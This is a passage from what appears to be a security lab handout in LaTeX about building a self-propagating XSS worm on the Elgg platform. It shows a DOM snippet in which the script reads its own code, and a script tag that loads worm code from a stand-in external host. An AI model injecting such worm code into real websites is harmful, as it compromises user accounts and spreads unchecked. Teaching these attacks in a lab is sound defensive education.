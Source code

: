 To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches:

\begin{itemize}
\item {\bf ID Approach:} If the entire JavaScript program (i.e., the worm) is 
    embedded in the infected profile, 
    to propagate the worm to another profile, the worm code can use
    DOM APIs to retrieve a copy of itself from the web page.
    An example of using DOM APIs is given below. This code
    gets a copy of itself, and display it in an alert window:

{\footnotesize
\begin{Verbatim}[frame=single]
<script id=worm>
   var strCode = document.getElementById("worm");
   alert(strCode.innerHTML);
</script>
\end{Verbatim}
}

\item {\bf Src Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is giving below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{Verbatim}
<script type="text/javascript" src="http://example.com/xss_worm.js">
</script>
\end{Verbatim} 

\end{itemize}

\paragraph{Note:} In this lab, you can try both approaches, 
but the ID approach is required, because it is more 
challenging and it does not rely on external JavaScript code.

 
\paragraph{Guideline: URL Encoding.}
All messages transmitted using HTTP over the Internet use URL Encoding, 
which converts all non-ASCII characters such as space to special code 
under the URL encoding scheme. 
In the worm code, messages sent to {\tt Elgg} 
should be encoded using URL encoding. The \texttt{escape} function
can be used to URL encode a string. An example of using the encode
function is given below.

